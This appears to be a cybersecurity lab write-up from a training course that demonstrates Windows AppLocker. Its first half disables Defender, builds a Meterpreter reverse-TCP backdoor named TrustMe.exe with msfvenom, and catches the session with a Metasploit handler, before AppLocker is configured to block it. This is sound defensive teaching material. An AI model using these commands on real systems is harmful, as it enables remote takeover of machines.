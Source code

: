 <h3>AppLocker</h3>

_NOTE: All the procedures in this lab were created and learned from: [Getting Started in Security with BHIS and MITRE ATT&CK](https://www.antisyphontraining.com/event/getting-started-in-security-with-bhis-and-mitre-attck/2023-09-18/) taught by [John Strand](https://www.sans.org/profiles/john-strand/)_

---

**Tools/Technologies used:** Windows, Linux, Powershell, cmd, Applocker, Backdoor & Backdoor listener, and Metasploit

---

[Windows AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/applocker/what-is-applocker) is a security feature in Windows that lets administrators control which applications and scripts can run on a computer or network by creating policies based on file attributes. It enhances security by allowing only authorized and trusted software to execute, reducing the risk of malware and unauthorized applications.<br>

---

Let's examine the scenario when AppLocker isn't active. Our objective is to establish a basic backdoor that connects to the Ubuntu system. It's important to note that our goal is not to demonstrate evasion of EDR or Endpoint products but rather to create a straightforward backdoor connection.

First, let's disable Defender for this session. Execute the following command from an Administrator PowerShell prompt:

```Set-MpPreference -DisableRealtimeMonitoring $true```

If you encounter any red error messages, don't worry; this indicates that Defender is not currently running.

To simplify this process, we have a couple of scripts available. Ensure that both your Windows and Linux systems are running, and let's begin by opening a Terminal as an Administrator.

![1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/5c41c2da-866f-4ee4-9620-2b84a8acca23)
![1 5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/bf18a584-6def-4450-ad8e-4ea2fd9e92ac)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ef060e3f-f787-40dc-bcaa-608dabdb3894)

On your Linux system, please run the following command:

$`ifconfig`

![3](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/730a3081-5acd-4a55-94f1-3adf4aaa7975)

Please note the IP address of your Ethernet adapter.

Please note that my adaptor is called eth0 and my IP address is 172.17.32.119. Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener:

$ `sudo su -` Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444  -f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`

![3 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a26a1b6d-945d-414e-9647-095a22f62080)

Now, let's start the Metasploit Handler. First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

![3 2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/27d921a5-657f-4946-b602-7ee897783d06)

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

![4](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/c25b312a-6d42-4bf3-9094-e5d10d661944)

Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

`cd \tools`

Then, run it.

`.\TrustMe.exe`

Back at your Ubuntu prompt, you should have a metasploit session!

![5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8a6d314b-9e7e-4ed1-91e1-42f899b551a8)

Now, let’s stop this from happening!

First, let’s configure AppLocker. To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo) then type Local Security. It should bring up a menu like the one below, please select Local Security Policy.

![6](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a6918cd3-d8f7-4dde-9372-7f1b9190597e)

Next, we will need to configure AppLocker. To do this, please go to Security Settings > Application Control Policies and then AppLocker.

![7](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/2db93d97-4465-4eea-aacd-065ce487a71f)

In the right hand pane, you will see there are 0 Rules enforced for all policies. We will add in the default rules. We will choose the defaults because we are far less likely to brick a system.

![8](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3ca06428-fd48-40d8-ab73-cc3807c26f3c)

Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”

![9](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ee9627c6-62ff-4db1-b9fe-9f595446c39d)

This should generate a subset of rules for each group. It should look similar to how it does below:

![10](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/4ed4648b-0533-4561-a69b-8ee050252334)

Next, we need to enforce the rules:

To do this you will need to select AppLocker on the far left pane. Then, you will need to select Configure rule enforcement. This will open a pop-up, you will need to check Configured for each set of rules

![11](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/009ace81-c4a7-4099-9d81-77ee996ed916)

Now, we will need to start the Application Identity service. This is done through pressing the Windows key and typing Services. This will bring up the Services App. Please select that and then double-click “Application Identity.”

![11 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/e6c7102a-2c60-409b-84fb-2cdc09cf5aa3)
![12](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8005f161-ff7e-47b4-82c0-b1c23b8d4e22)

Once the Application Identity Properties dialog is open, please press the Start button. This will start the service.

![13](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/96cf5159-aa2f-467e-9137-42f8558afd63)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

![13 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3e5f5109-0f64-4af6-8bfb-4db5215a01c9)

Next, log out as ADHD and log back in as allowlist.

You can do this easily by selecting the Windows icon and then the little white user icon:

![14](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/1a2599a6-b079-4226-87ea-7d322241d038)

The password is ADHD.

Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![15](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/fb6bdd70-08f6-4729-96a6-e5a5fb2e21dc)
You will see that most of the .exe files will generate an error.

You should get an error.







